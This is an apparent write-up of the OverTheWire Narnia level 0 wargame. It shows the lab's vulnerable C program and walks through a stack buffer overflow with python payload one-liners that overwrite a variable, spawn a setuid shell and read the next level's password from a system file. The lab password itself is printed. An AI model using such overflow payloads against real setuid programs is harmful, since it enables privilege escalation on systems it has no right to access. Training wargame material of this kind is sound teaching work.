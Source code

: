 ```bash
┏━•  ~
┗  ssh narnia0@narnia.labs.overthewire.org -p 2226

This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

narnia0@narnia.labs.overthewire.org's password:
Linux narnia 4.18.12 x86_64 GNU/Linux
```
... SNIP BANNER ...

```bash
narnia0@narnia:~$ cat /narnia/narnia0.c
```
```c
/*                                                                                                                               /*
  This program is free software; you can redistribute it and/or modify
  it under the terms of the GNU General Public License as published by
  the Free Software Foundation; either version 2 of the License, or
  (at your option) any later version.

  This program is distributed in the hope that it will be useful,
  but WITHOUT ANY WARRANTY; without even the implied warranty of
  MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
  GNU General Public License for more details.

  You should have received a copy of the GNU General Public License
  along with this program; if not, write to the Free Software
  Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }
    
    return 0;
}
```

We can quickly see our buffer overflow in the code. The input character buffer (`char buf[20];`) has a length of 20 bytes, while the scanf() allows for 24 bytes (`scanf("%24s",&buf);`) of input leaving us 4 bytes to overflow. 

Looking at the code we can see that val has been assigned the hexadecimal value 0x41414141 (`long val=0x41414141;`), which, when decoded to a string is `AAAA`. It looks like the program expects the user to enter 20 characters then 0xDEADBEEF.

Lets try running the program with 20 A's to see the output.
```bash
narnia0@narnia:/narnia$ ./narnia0                                                                                     Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAA
buf: AAAAAAAAAAAAAAAAAAAA
val: 0x41414100
WAY OFF!!!!
```

Now lets see what happens if we can change `val` to another value by adding 20 A's and 4 B's.
```bash
narnia0@narnia:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAABBBB
buf: AAAAAAAAAAAAAAAAAAAABBBB
val: 0x42424242
WAY OFF!!!!
```
It works! We were able to modify `val`. Now lets try giving the program what it wants. 20 chars, and then 0xdeadbeef. So lets test with the correct payload (i.e. hexstring in reverse 0xefbeadde)

```bash
narnia0@narnia:~$ python -c 'print "A"*20 + "\xef\xbe\xad\xde"' | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
```

# NOTE: You may be wondering why deadbeef is written backwards ("\xef\xbe\xad\xde"). In x86 and x86-64 (and a variety of other hardware), multi-byte values such as addresses are stored in little-endian order, ie. "backwards" from the viewpoint of a person reading it.

Now that we have privilege escilation lets get the password for narnia1 from /etc/narnia_pass/narnia1.

```bash
narnia0@narnia:~$ (python -c 'print "A"*20 + "\xef\xbe\xad\xde"'; echo 'cat /etc/narnia_pass/narnia1') | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
efeidiedae       # password for narnia1
```

Alternatively, print the string, and copy & paste it to get the the narnia1 shell and grab the password from /etc/ manually.

```bash
narnia0@narnia:/narnia$ (echo -e 'AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde\xaf';cat)                           AAAAAAAAAAAAAAAAAAAAﾭޯ

narnia0@narnia:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: (echo -e 'AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde\xaf';cat)

buf: (echo
val: 0x41414141
WAY OFF!!!!
narnia0@narnia:/narnia$                                                                                               narnia0@narnia:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAAﾭޯ
buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
$ whoami
narnia1
$ cat /etc/narnia_pass/narnia1
efeidiedae
$
```